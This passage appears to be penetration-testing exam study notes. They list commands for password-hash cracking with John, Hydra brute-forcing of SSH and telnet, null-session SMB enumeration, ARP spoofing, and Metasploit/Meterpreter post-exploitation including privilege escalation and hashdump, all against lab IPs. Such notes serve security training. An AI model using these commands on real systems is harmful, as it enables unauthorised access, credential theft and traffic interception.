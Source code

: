     unshadow passwd shadow > unshadow

#### Hash Cracking
    john -wordlist /path/to/wordlist -users=users.txt hashfile

### Network Attacks
Brute Forcing with Hydra
replace ‘ssh’ with any relevant service

    hydra -L users.txt -P pass.txt -t 10 10.10.10.10 ssh -s 22
    hydra -L users.txt -P pass.txt telnet://10.10.10.10

### Windows Shares Using Null sessions
    nmblookup -A 10.10.10.10
    smbclient -L //10.10.10.10 -N (list shares)
    smbclient //10.10.10.10/share -N (mount share)
    enum4linux -a 10.10.10.10

#### ARP spoofing
    echo 1 > /proc/sys/net/ipv4/ip_forward
    arpspoof -i tap0 -t 10.10.10.10 -r 10.10.10.11

### Metasploit
Metasploit is a very useful tool for penetration testers, and I’d recommend going through a Metasploitable for an effective, hands on way to learn about Metasploit. There are plenty of guides and walkthroughs available to learn from. Doing even part of a Metasploitable box will more than prepare you for the Metasploit usage required here.

#### Basic Metasploit Commands
    search x
    use x
    info
    show options, show advanced options
    SET X (e.g. set RHOST 10.10.10.10, set payload x)

#### Meterpreter
The below are some handy commands for use with a Meterpreter session. Again, I’d recommend going through a Metasploitable or doing some extra study here.
    
    background
    sessions -l
    sessions -i 1
    sysinfo, ifconfig, route, getuid
    getsystem (privesc)
    bypassuac
    download x /root/
    upload x C:\\Windows
    shell
    use post/windows/gather/hashdump
    
## Possible Exam Questions:
